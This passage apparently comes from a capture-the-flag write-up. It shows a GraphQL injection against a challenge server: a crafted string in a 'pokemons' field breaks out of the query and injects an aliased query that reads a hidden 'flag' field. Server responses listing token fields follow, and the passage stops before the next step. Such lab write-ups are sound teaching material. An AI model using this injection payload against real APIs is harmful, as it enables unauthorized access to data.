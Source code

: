 
Oh! Object type `Digimon0x000141a0` has field `flag`!

Now we can finally query `digimOwOUwURawrn38408375018458385023841203489738570123`!

```json
{
  "pokemons": [
    "anything\"){id},injected_query:digimOwOUwURawrn38408375018458385023841203489738570123(passcode:\"dish-percent-drop-brief\",name:\"Flagmon\"){flag}}#"
  ],
  "compares": []
}
```

**Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "flag": "Flag not here hahahahahaha"
    }
  }
}
```

Huh? The flag is not here?

If you remember, object type `Digimon0x000141a0` also has some weird `token` fields:

```json
{
  "data": {
    [...]
    "injected_query": {
      "fields": [
        [...]
        {
          "name": "tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b"
        },
        {
          "name": "tokend743cb4b22397cf64e0117fd83d29ca1e059c698b8155a3771417e24458e2bb5"
        },
        {
          "name": "tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e"
        }
      ],
      "name": "Digimon0x000141a0"
    }
  }
}
```

Maybe those fields contain the flag?? Let's try that:

